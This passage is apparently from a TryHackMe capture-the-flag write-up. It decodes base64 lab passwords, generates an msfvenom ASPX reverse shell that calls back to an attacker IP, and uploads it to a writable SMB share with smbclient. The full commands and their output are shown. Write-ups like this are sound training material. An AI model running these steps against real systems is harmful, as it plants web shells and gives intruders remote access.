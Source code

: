 ````commandline
$ cat passwords.txt 
[User Passwords - Encoded]
Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk

┌──(itchy㉿scratchy)-[~/Documents/THM/relevant]
└─$ echo "Qm9iIC0gIVBAJCRXMHJEITEyMw==" | base64 -d
Bob - !P@$$W0rD!123

┌──(itchy㉿scratchy)-[~/Documents/THM/relevant]
└─$ echo "QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk" | base64 -d
Bill - Juw4nnaM4n420696969!$$$
````

## Looking back to the webserver

Now that our `gobuster` scans are finally done, we see there is a `/nt4wrksv` directory. Which is the same naming as on the Samba share because we find back that `password.txt` file on <http://10.10.227.128:49663/nt4wrksv/passwords.txt>.

As we have write permissions on this samba user. We can upload there a reverse shell.

## Reverse Shell

As this is a `Microsoft` web server, we need to make use of the language it is able to handle. So forget the classing `PHP` web shells we have by default available on our Kali machine. 

```commandline
$ msfvenom -p windows/x64/shell_reverse_tcp LHOSt=10.8.208.30 LPORT=53 -f aspx -o rev.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of aspx file: 3434 bytes
Saved as: rev.aspx
```

Transfering our reverse shell with the `smbclient` tool.

````commandline
$ smbclient -U guest \\\\$IP_TARGET\\nt4wrksv\\
Enter WORKGROUP\guest's password: 
Try "help" to get a list of possible commands.
smb: \> put rev.aspx 
putting file rev.aspx as \rev.aspx (22.5 kb/s) (average 22.5 kb/s)
smb: \> ls
  .                                   D        0  Tue Sep  7 23:49:20 2021
  ..                                  D        0  Tue Sep  7 23:49:20 2021
  passwords.txt                       A       98  Sat Jul 25 17:15:33 2020
  rev.aspx                            A     3434  Tue Sep  7 23:49:20 2021

                7735807 blocks of size 4096. 5137011 blocks available
smb: \> exit
````
